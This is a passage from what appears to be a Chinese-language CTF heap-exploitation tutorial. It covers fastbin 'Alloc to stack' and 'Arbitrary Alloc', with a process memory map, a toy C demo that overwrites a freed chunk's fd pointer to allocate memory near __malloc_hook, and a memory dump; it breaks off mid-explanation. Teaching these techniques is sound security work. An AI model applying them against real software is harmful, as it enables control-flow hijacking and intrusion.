 ```
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw-
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw-
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```


### 小总结
通过该技术我们可以把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点我们需要劫持fastbin 中 chunk 的 fd 域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。

## Arbitrary Alloc

### 介绍

Arbitrary Alloc 其实与 Alloc to stack 是完全相同的，唯一的区别是分配的目标不再是栈中。
事实上只要满足目标地址存在合法的 size 域（这个 size 域是构造的，还是自然存在的都无妨），我们可以把 chunk 分配到任意的可写内存中，比如bss、heap、data、stack等等。

### 演示
在这个例子，我们使用字节错位来实现直接分配 fastbin 到**\_malloc_hook的位置，相当于覆盖_malloc_hook来控制程序流程。**
```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
这里的0x7ffff7dd1af5是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。
```
0x7ffff7dd1a88 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a90 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a98 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
```